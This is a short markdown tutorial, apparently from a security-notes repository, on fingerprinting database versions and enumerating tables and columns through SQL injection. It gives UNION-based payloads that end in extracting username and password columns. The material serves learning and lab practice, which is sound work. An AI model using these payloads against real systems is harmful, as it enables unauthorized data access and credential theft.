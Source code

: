 # Examin Database with SQL injection attacks

With SQL injection you can guess information about the database:

- The type and version of the database software.
- The tables and columns that the database contains.

### Table of content

- [Version](#version)
- [Content of the database]()

## Version

Database | Type Query
--- | --- 
Microsoft, MySQL | `SELECT @@version`
Oracle | `SELECT * FROM v$version`
PostgreSQL | `SELECT version()`

For example, you could use a UNION attack with the following input:

`' UNION SELECT @@version--`

## Content of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

:warning: database contents aren't call with the same Queries:

```sql
-- Oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

-- Mircosof
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

-- PostgreSQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

-- MySQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

```sql
SELECT * FROM information_schema.tables
```

This returns output like the following:

```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

```sql
This returns output like the following:

TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Exemple:

```sql
' UNION SELECT 'a', 'a' -- return -> 200 OK
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Found users_abcdef table interting:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Found column username_abcdef, password_abcdef

```sql
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

---

[**:arrow_right_hook: Back home**](/README.md)

